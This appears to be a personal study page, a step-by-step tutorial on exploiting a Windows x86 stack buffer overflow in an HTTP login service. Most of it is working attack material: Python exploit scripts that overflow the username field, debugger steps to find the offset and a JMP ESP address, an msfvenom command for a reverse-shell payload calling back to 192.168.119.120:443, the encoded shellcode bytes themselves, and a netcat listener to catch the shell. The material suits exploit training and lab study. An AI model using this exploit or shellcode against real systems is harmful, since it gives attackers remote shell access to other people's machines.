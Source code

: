 ```yaml
---
title: Stack Buffer Overflow
parent: Windows x86
layout: default
nav_order: 1
---
```


1. First have a PoC ready. Should look like below. Ensure this can overwrite EIP (should be 41414141). Open WinDBG and attach to the process. Run the code on Kali.

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = "192.168.1.1" # host
    port = 80
    size = 800
    inputBuffer = b"A" * size
    content = b"username=" + inputBuffer + b"&password=A"

    buffer = b"POST /login HTTP/1.1\r\n"
    buffer += b"Host: " + server.encode() + b"\r\n"
    buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
    buffer += b"Referer: http://10.11.0.22/login\r\n"
    buffer += b"Connection: close\r\n"
    buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
    buffer += b"\r\n"
    buffer += content

    print("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buffer)
    s.close()
    
    print("Done!")
    
    except socket.error:
    print("Could not connect!")
    ```

2. Run `msf-pattern_create -l 800` where 800 should be longer or same than the crash length to identify where it crash. Comment the previous inputBuffer in the Python PoC and use this instead.
3. Check what is in EIP, and then use `msf-pattern_offset -l 800 -q EIPVALUE` to get the offset.
4. To ensure that the address is correct, can do something like this if the EIP offset is 780:

    ```
    ...
    filler = b"A" * 780
    eip = b"B" * 4
    buf = b"C" * 16
    inputBuffer = filler + eip + buf
    ...
    ```

5. If the EIP offset is now 42424242, then the offset address is correct.
6. In WinDBG, use `r` to check the registers (usually ESP address), then use `dds esp L3` and `dds esp -10 L8` to see if the ESP register points to Cs (and also check which set of C, it might not be the first). If yes it means we can use ESP to host shellcode.
7. If only a few bytes of Cs are available there, need to ensure that it has enough space. Can use D this time to find out if have enough space for shellcode (800 to 1500 bytes will be sufficient).

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"B" * 4
    offset = b"C" * 4
    shellcode = b"D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + shellcode
    content = b"username=" + inputBuffer + b"&password=A"
    ...
    ```

8. Run this again and should notice that the ESP now points correctly to D (44444444), and not any front or after. (Use `r` and `dds esp - 8 L7`).
9. To check how much space you have, find where does it end. Do a trial and error (`dds esp+100 L8`,`dds esp+200 L8`,... in this case it is `dds esp+2c0 L4`). Use that line that no longer has D (44444444) to minus the ESP start address with `? 00567724 - 0056745c`.
10. Check for bad characters by replacing D with all hex except 0x00:

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"B" * 4
    offset = b"C" * 4
    badchars = (
        b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
        b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
        b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
        b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
        b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
        b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
        b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
        b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
        b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
        b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
    #shellcode = "D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + badchars
    ...
    ```

11. Now retrigger and check `db esp - 10 L20` to see which characters are truncated or missing. Remove that specific character and try again. Do this until all bad characters are removed.
12. Next we need to find an address that points to ESP (cannot be pointing to the address number directly because stack address changes from time to time). Usually this can be done by finding a JMP ESP instruction. This address of instruction must be static, and also not have any bad characters.
13. This can be done by using ProcessHacker. Launch as admin then locate the executable. Double click on it then Properties -> General -> Mitigation Policies will tell you if there are any protections like ASLR and DEP. If click on Modules tab can see the DLLs being loaded. From here need to find a DLL that has address range with no bad characters.
14. In Kali, run `msf-nasm_shell`, then `jmp esp` to get the instruction for JMP ESP (it is FFE4).
15. In WinDBG, run `lm m libspp`, where libspp is the dll chosen just now, and you will get start and end address. Use `s -b 10000000 10223000 0xff 0xe4` (the first 2 is start and end address, and ff e4 is JMP ESP). It should reveal an address. Make sure the address doesnt have bad characters. Use `u 10090c83` to make sure the address is JMP ESP.
16. Can now update the code to include this address (endian, so need reverse order):

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"\x83\x0c\x09\x10" # 0x10090c83 - JMP ESP
    offset = b"C" * 4
    shellcode = "D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + shellcode
    content = b"username=" + inputBuffer + b"&password=A"
    ...
    ```

17. To ensure this is working correctly, use a breakpoint on the JMP ESP instruction (0x10090c83) by using `bp 10090c83`. `bl` to confirm it, `g` to continue execution then once it hits breakpoint, run `t` and `dc eip L4` to ensure EIP is overwritten with D.
18. Use msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"` with the -b being bad characters to generate shellcode. Ensure that the size is smaller than your shellcode available size.
19. Add NOP slides so that the CPU will slide through the NOPs to reach shellcode:

    ```
    ...
    filler = b"A" * 780
    eip = b"\x83\x0c\x09\x10" # 0x10090c83 - JMP ESP
    offset = b"C" * 4
    nops = b"\x90" * 10
    shellcode = bytearray(
    "\xdd\xc4\xba\x6d\xdc\x1e\xf1\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
    "\x52\x31\x56\x17\x83\xee\xfc\x03\x3b\xcf\xfc\x04\x3f\x07\x82"
    "\xe7\xbf\xd8\xe3\x6e\x5a\xe9\x23\x14\x2f\x5a\x94\x5e\x7d\x57"
    "\x5f\x32\x95\xec\x2d\x9b\x9a\x45\x9b\xfd\x95\x56\xb0\x3e\xb4"
    "\xd4\xcb\x12\x16\xe4\x03\x67\x57\x21\x79\x8a\x05\xfa\xf5\x39"
    "\xb9\x8f\x40\x82\x32\xc3\x45\x82\xa7\x94\x64\xa3\x76\xae\x3e"
    "\x63\x79\x63\x4b\x2a\x61\x60\x76\xe4\x1a\x52\x0c\xf7\xca\xaa"
    "\xed\x54\x33\x03\x1c\xa4\x74\xa4\xff\xd3\x8c\xd6\x82\xe3\x4b"
    "\xa4\x58\x61\x4f\x0e\x2a\xd1\xab\xae\xff\x84\x38\xbc\xb4\xc3"
    "\x66\xa1\x4b\x07\x1d\xdd\xc0\xa6\xf1\x57\x92\x8c\xd5\x3c\x40"
    "\xac\x4c\x99\x27\xd1\x8e\x42\x97\x77\xc5\x6f\xcc\x05\x84\xe7"
    "\x21\x24\x36\xf8\x2d\x3f\x45\xca\xf2\xeb\xc1\x66\x7a\x32\x16"
    "\x88\x51\x82\x88\x77\x5a\xf3\x81\xb3\x0e\xa3\xb9\x12\x2f\x28"
    "\x39\x9a\xfa\xff\x69\x34\x55\x40\xd9\xf4\x05\x28\x33\xfb\x7a"
    "\x48\x3c\xd1\x12\xe3\xc7\xb2\xdc\x5c\xb0\x3a\xb5\x9e\x3e\xba"
    "\xfe\x16\xd8\xd6\x10\x7f\x73\x4f\x88\xda\x0f\xee\x55\xf1\x6a"
    "\x30\xdd\xf6\x8b\xff\x16\x72\x9f\x68\xd7\xc9\xfd\x3f\xe8\xe7"
    "\x69\xa3\x7b\x6c\x69\xaa\x67\x3b\x3e\xfb\x56\x32\xaa\x11\xc0"
    "\xec\xc8\xeb\x94\xd7\x48\x30\x65\xd9\x51\xb5\xd1\xfd\x41\x03"
    "\xd9\xb9\x35\xdb\x8c\x17\xe3\x9d\x66\xd6\x5d\x74\xd4\xb0\x09"
    "\x01\x16\x03\x4f\x0e\x73\xf5\xaf\xbf\x2a\x40\xd0\x70\xbb\x44"
    "\xa9\x6c\x5b\xaa\x60\x35\x6b\xe1\x28\x1c\xe4\xac\xb9\x1c\x69"
    "\x4f\x14\x62\x94\xcc\x9c\x1b\x63\xcc\xd5\x1e\x2f\x4a\x06\x53"
    "\x20\x3f\x28\xc0\x41\x6a")
    shellcode+= "D" * (1500 - len(filler) - len(eip) - len(offset) - len(shellcode))
    inputBuffer = filler + eip + offset + nops + shellcode
    ...
    ```

20. Run `sudo nc -lvp 443` on Kali, send the exploit code and you should receive shell.
